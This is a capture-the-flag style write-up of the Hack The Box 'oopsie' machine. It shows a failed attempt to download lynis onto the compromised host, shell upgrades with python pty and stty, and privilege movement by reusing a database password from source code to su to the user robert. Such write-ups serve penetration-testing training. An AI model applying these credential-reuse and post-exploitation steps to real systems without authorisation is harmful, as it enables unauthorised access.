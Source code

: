 Sadly, I can't download lynis on the victim's machine.

```
www-data@oopsie:/tmp/poop$ curl https://raw.githubusercontent.com/CISOfy/lynis/master/lynis   
<aw.githubusercontent.com/CISOfy/lynis/master/lynis 
curl: (6) Could not resolve host: raw.githubusercontent.com
```

and

```
www-data@oopsie:/tmp$     git clone https://github.com/CISOfy/lynis
    git clone https://github.com/CISOfy/lynis
Cloning into 'lynis'...
fatal: unable to access 'https://github.com/CISOfy/lynis/': Could not resolve host: github.com
```


It's kind of a pain in the ass to download files on this machine.

I know that it's the database I need to attack. I just need to connect to it... I'm going to read the guide

## Give up and read the guide again q_q

Okay, so according to the guide, I'm not supposed to use

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

But this to upgrade shell:

```bash
SHELL=/bin/bash script -q /dev/null
<Ctrl-Z>
stty raw -echo
fg
reset
xterm
```

(It doesn't work Q_Q, just going to use `python3 -c 'import pty; pty.spawn("/bin/bash")'`)

Next step was actually running `su robert` using `$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');`... NOT running `mysql`.

I'm going to `su` and then stop reading the guide.

## i am robert :3

```
www-data@oopsie:/$ su robert
su robert
Password: M3g4C0rpUs3r!

robert@oopsie:/$ whoami
whoami
robert
robert@oopsie:/$ 
```
